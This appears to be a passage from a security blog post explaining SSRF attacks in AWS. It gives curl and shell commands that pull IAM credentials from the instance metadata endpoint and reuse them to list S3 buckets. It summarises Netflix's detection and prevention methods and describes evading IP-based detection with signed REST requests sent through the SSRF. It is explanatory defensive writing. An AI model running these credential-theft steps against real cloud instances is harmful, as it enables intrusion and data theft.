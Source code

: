 But **SSRF can be really nasty in a cloud environment**.

### Using compromised credentials

Obviously, once you have those credentials, you can use them from anywhere in the world.

In the following listing, from a local machine exploiting SSRF, first we get the credentials and then those credentials are used to get the number of S3 buckets.

local $ curl -s <aws-machine-ip>/?url=<http://169.254.169.254/latest/meta-data/iam/security-credentials/gonzalo-metadata> > /tmp/aws_cred.json
local $ export AWS_ACCESS_KEY_ID=$(jq -r '.AccessKeyId' /tmp/aws\_cred.json)
local $ export AWS\_SECRET\_ACCESS\_KEY=$(jq -r '.SecretAccessKey' /tmp/aws_cred.json)
local $ export AWS_SESSION_TOKEN=$(jq -r '.Token' /tmp/aws_cred.json)
local $ aws s3 ls|wc -l
8Let’s reiterate this again.

> Once you’ve got the credentials, you can use them to access any AWS services that the instance is allowed to access.#### Mitigations

Last year people in Netflix where already aware of this problem and wrote a couple of super interesting articles on [detection](https://medium.com/netflix-techblog/netflix-cloud-security-detecting-credential-compromise-in-aws-9493d6fd373a) and [prevention](https://medium.com/netflix-techblog/netflix-information-security-preventing-credential-compromise-in-aws-41b112c15179) for this type of attacks.

You should read both articles, because they explain the problem and solutions better than me. In any case, my layman summary would be:

- For **detection**, you can parse CloudTrail (AWS CloudTrail is a service that logs every call to AWS). Simplifying, you would check and record the IP from where the instance makes an API call for the first time. If later on, that instance makes another call from a different IP, it is most likely an attacker using the credentials he/she has already obtained.
- For **prevention**, instances wouldn’t have direct access to the metadata endpoint. They would have access to a proxy that would check if the call has a specific header attached. Attaching a header to the proxy would be more difficult than making a simple request.

### REST API exploiting

Netflix’s **detection** technique assumes that once the credentials are compromised, the attacker no longer uses the EC2 instance to access AWS services. And with that assumption, detects the compromise in a change of IP address.

![Wolf in sheep’s clothing](/img/1*VQB6XiMQRlENB2a59jeZ2g.jpeg)Wolf in sheep’s clothing (by [Drew Travin](https://www.flickr.com/photos/drewtarvin/24107843813))But that is not a correct assumption. Because [some](https://docs.aws.amazon.com/AmazonS3/latest/API/RESTServiceGET.html) of the AWS services can be accessed via GET using a REST API (and a specific [signing process](https://docs.aws.amazon.com/AmazonS3/latest/API/sig-v4-authenticating-requests.html)). And if the attacker managed to invoke the metadata endpoint, it may be able to invoke the REST API, especially considering that REST APIs can receive all the parameters via query string.

I’m not going to detail the steps (sorry, no public code), but I can confirm that the following works:

- Use SSRF to get the credentials (as we saw it before).
- Build the request and sign it. In [this example](https://docs.aws.amazon.com/general/latest/gr/sigv4-signed-request-examples.html#sig-v4-examples-get-query-string) you can see how to do it, although it will need some modifications because that script doesn’t manage session tokens. The documentation is not quite correct (*COUGH*payload_hash*COUGH*).
- Use SSRF again to send the request using the URL for the signed request. In the below example, the invocation uses only a GET request with query string parameters (no need to send headers). The end result is a list of buckets that the instance can access. Using SSRF we have accessed AWS APIs.
  local $ eval `python3 creds.py`
  <?xml version="1.0" encoding="UTF-8"?>
  <ListAllMyBucketsResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Owner><ID>[REDACTED]</ID><DisplayName>[REDACTED]</DisplayName></Owner><Buckets><Bucket><Name>[REDACTED]</Name><CreationDate>2019-07-09T19:01:03.000Z</CreationDate></Bucket>[...]</Buckets></ListAllMyBucketsResult>I want to stress that since we’re using SSRF, the request comes from the instance.

